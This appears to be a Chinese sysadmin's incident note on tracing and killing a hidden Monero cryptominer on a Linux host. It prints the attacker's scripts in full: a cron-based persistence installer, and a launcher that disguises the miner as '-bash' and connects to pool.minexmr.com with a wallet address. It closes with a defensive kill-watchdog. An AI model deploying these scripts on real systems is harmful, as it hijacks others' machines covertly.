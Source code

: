 # 查杀挖矿机进程md

`top`
        查看到md（占用cpu近100%）的PID 4444
`cd /proc/4444`
`ll`
        重点关注cmdline 和 exe,cwd 等
        cwd 指向 /lib/modules/.z (这个目录里放着挖矿的程序)
# exe指向 /lib/modules/.z/md (这个就是占用100%cpu的家伙)
[root@localhost]# cat cmdline 
# 这里看到如下字样，pool.minexmr.com 基本上跟挖矿有关了
#-bash -acryptonight-os tratum+tcp://pool.minexmr.com:7777

[root@localhost]# cd /lib/modules/.z/
[root@localhost .z]# ll
# ll结果如下，h32,h64,md,mdx都是二进制文件
# 我们可以从a, run, x 三个文件里看到些端倪
```
-rw-r--r--. 1 root root       0 Nov 23 15:40 $
-rwxr-xr-x. 1 root root     332 Oct  5 03:07 a
-rw-r--r--. 1 root root       1 Nov 23 18:07 bash.pid
-rwxr-xr-x. 1 1001 1001   15125 Feb 21  2016 h32
-rwxr-xr-x. 1 1001 1001  838583 Feb 21  2016 h64
-rwxr-xr-x. 1 root root 2979640 Jun 24 04:19 md
-rwxr-xr-x. 1 root root  168896 Sep 27 18:58 mdx
-rwxr-xr-x. 1 root root     533 Nov 19 22:41 run
-rw-r--r--. 1 root root    4833 Nov 23 16:24 screenlog.0
-rwxr-xr-x. 1 root root      24 Oct  5 02:45 x
```
[root@localhost .z]# cat a 
```
pwd > dir.dir
dir=$(cat dir.dir)
echo "* * * * * $dir/upd >/dev/null 2>&1" > cron.d
crontab cron.d
crontab -l | grep upd
echo "#!/bin/sh
if test -r $dir/bash.pid; then
pid=\$(cat $dir/bash.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > upd
chmod u+x upd
rm -rf ../dwk.tgz
rm -rf ../z.sh
```
# cron.d 和 upd文件都没有找到，使用locate 命令，也没有搜索到，
# 使用kill 4444 之后，停几个小时，md会重新执行（即使给.z文件夹改名也没用，删除也没有用，还是会启动）
# 怀疑存在父进程，或定时任务，但是使用crontab -l 查看没有定时任务（无语）
[root@localhost .z]# cat run
```
#!/bin/bash

proc=`nproc`
ARCH=`uname -m`
HIDE="-bash"

if [ "$ARCH" == "i686" ];       then
        ./h32 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
elif [ "$ARCH" == "x86_64" ];   then
        ./h64 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
fi
echo $! > bash.pid
```
[root@localhost .z]# cat x
```
nohup ./a >>/dev/null &
```

# 无奈只能曲线救国，写了一个守护进程，一旦看到md运行就kill掉它
# 其中ps -ef 结果的第三列是父进程，为了追综始作俑者。
# 一般命令行运行的程序好像父进程是1？
```
#!/bin/sh
proc_name="^sh md$" 
file_name="/data2/lzc/watchMD.log"

echo `date` = NUM = PID > $file_name
while true
do
 num=`pgrep -x "$proc_name" | wc -l`
 if [ 0 -lt $num ]
 then
    pid=`pgrep -x "$proc_name"`
    ps -ef | grep $pid | grep -v grep >> $file_name
    echo == >> $file_name
    par=(`ps -ef | grep $pid | grep -v grep | cut -f3`)
    ps -ef | grep ${par[0]} | grep -v grep >> $file_name
    echo ==== >> $file_name
    kill $pid
    echo `date` =  $num  = $pid >> $file_name
 fi
 sleep 2
done  
```
